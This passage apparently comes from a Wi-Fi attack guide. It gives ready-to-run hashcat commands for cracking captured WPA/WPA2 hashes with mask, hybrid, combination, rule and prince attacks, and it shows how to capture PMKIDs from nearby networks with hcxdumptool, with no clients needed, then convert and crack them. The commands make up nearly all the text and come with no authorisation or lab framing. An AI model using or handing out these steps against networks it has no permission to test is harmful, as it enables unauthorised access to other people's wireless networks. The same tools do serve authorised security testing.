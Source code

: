 ```bash
```

#### Advanced Hashcat Attacks

```bash
# Mask attack (when password pattern is known)
hashcat -m 22000 hash.hc22000 -a 3 ?l?l?l?l?l?d?d?d?d  # 5 lowercase + 4 digits

# Hybrid attacks
hashcat -m 22000 hash.hc22000 -a 6 wordlist.txt ?d?d?d?d  # wordlist + 4 digits
hashcat -m 22000 hash.hc22000 -a 7 ?d?d?d?d wordlist.txt  # 4 digits + wordlist

# Combination attack
hashcat -m 22000 hash.hc22000 -a 1 left-wordlist.txt right-wordlist.txt

# With multiple rules
hashcat -m 22000 hash.hc22000 wordlist.txt -r rule1.rule -r rule2.rule

# Prince attack (probability-based)
hashcat -m 22000 hash.hc22000 -a 4 wordlist.txt
```

#### Performance Optimization

```bash
# Benchmark GPU performance
hashcat -b

# Optimize workload
hashcat -m 22000 hash.hc22000 wordlist.txt -w 4  # Nightmare workload

# Monitor temperature and performance
nvidia-smi -l 1  # For NVIDIA GPUs
watch -n 1 radeontop  # For AMD GPUs

# Custom optimization
hashcat -m 22000 hash.hc22000 wordlist.txt -O -w 4 --force
```

---

## Advanced Techniques

### PMKID Attack (Hashcat 22000)

PMKID attacks allow cracking WPA/WPA2 networks without capturing handshakes or waiting for clients.

#### Capturing PMKID

```bash
# Install required tools
sudo apt install hcxdumptool hcxtools

# Capture PMKID (no clients required)
sudo hcxdumptool -i wlan0mon -o pmkid-capture.pcapng --enable_status=1

# Target specific networks
sudo hcxdumptool -i wlan0mon -o pmkid-capture.pcapng --filterlist=targets.txt --enable_status=1

# Convert to hashcat format
hcxpcapngtool -o pmkid.hc22000 -E essidlist pmkid-capture.pcapng

# Crack with hashcat
hashcat -m 22000 pmkid.hc22000 wordlist.txt
```
